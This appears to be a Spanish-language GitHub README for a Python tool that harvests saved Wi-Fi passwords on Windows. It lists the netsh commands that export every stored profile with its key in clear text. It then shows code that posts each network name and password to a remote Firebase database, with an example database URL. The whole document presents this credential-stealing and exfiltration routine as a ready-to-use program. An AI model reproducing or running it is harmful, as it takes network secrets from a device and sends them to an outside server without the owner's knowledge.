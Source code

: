 # Python-Wi-Fi
Obtener contraseñas Wi-Fi

Al archivo WiFi.py ejecuta los comandos en la consola de windows
```
netsh wlan show profile
netsh wlan show networks
netsh wlan export profile key=clear
```


Lo que deja ver las **redes wifi _guardadas en el dispositivo_ en el que se ejecuta el programa**.
Después crea un archivo .xml por cada wifi, el programa encuentra en ese archivo las redes que tienen la contraseña visible y pasa toda esa informacion a una base de datos de firebase.

```python
db = firebase.FirebaseApplication('REALTIME DATABASE URL')
data = {"Wi-Fi": wifi_names[index],"Password": passwords[index]}
datos = db.post("/wifi's", data)
```
### Ejemplo de URL:
```python
db = firebase.FirebaseApplication('https://miproyecto-default-rtdb.firebaseio.com/')
```
